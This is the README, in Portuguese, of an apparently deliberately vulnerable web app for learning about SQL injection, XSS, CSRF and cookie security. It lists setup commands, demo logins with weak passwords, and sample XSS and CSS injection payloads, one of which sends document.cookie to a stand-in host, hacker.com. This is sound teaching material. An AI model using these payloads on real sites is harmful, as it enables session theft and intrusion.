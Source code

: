 # Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Subir o banco de dados utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```

### 2. Criação do banco de dados.

- Executar o script de criação do banco de dados que se encontra em dvsn-api/script.sql informando a senha **Postgres123**:

```
$ psql -U postgres -h 172.45.45.10 -d postgres -a -f ./dvsn-api/script.sql
```
- **ou** executar o script:
```
$ ./create-db.sh
```

### 3. Entrar na pasta do front (dvsn-client) e dar build no projeto, para que os arquivos sejam colocados ná pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 4. Abrir o IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|



## Comandos extras:
Gerar certificado para o servidor apache2.
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

## Assuntos abordados:

- OWASP TOP 10
- XSS
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Vulnerabilidades
- SQL Injection
    - Login
    - Pesquisa de usuários
- XSS
    - Reflected
        - /hello?nome=Bob
    - DOM
        - Filtro na listagem de POSTS
    - Stored
        - Comentários dos posts

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
https://github.com/payloadbox/xss-payload-list
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```
- SQL Injection

https://github.com/payloadbox/sql-injection-payload-list
- CSS Injection
http://localhost:8080/hello?nome=Gabriel#red;margin-left:50px;background-image:url('http://localhost:8080/favico.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## TODO
- <s>Prevenção de XSS configurável.</s>
- <s>Prevenção de SQL Injection configurável.</s>
- <s>Adicionar XSS em SVG e CSS.</s>
- Validar tipos de autenticação e adicionar Token Opaco.


## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>
## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval